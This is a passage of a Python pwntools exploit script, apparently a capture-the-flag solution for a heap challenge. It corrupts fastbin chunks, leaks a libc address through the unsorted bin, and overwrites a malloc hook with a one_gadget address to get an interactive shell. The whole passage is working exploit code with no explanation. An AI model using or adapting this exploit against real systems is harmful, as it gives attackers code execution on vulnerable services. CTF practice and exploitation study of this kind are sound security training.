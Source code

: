 ```python
    sh.sendline(str(idx))

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)

myfree(2)
myfree(1)

payload= b"a"*0x10 + p64(0)+p64(0x21)+ p8(0x80)
fill(0,len(payload),payload)

payload= b"a"*0x10 + p64(0)+p64(0x21)
fill(3,len(payload),payload)

allocate(0x10)
allocate(0x10)

payload= b"a"*0x10 + p64(0)+p64(0x91)
fill(3,len(payload),payload)

allocate(0x10)  # 防止和top chunk合并
myfree(4)   

dump(2)

sh.recvuntil("Content: \n")
unsortedbin_addr = u64(sh.recv(8))
print(hex(unsortedbin_addr))

main_arena = unsortedbin_addr - 0x58
libc_base = main_arena - 0x3c4b20

allocate(0x60)
	
myfree(4)

fake_chunk_addr = main_arena - 0x33
payload = p64(fake_chunk_addr)

fill(2,len(payload),payload)

allocate(0x60)
allocate(0x60)

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * b'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)

allocate(0x100)
sh.interactive()
```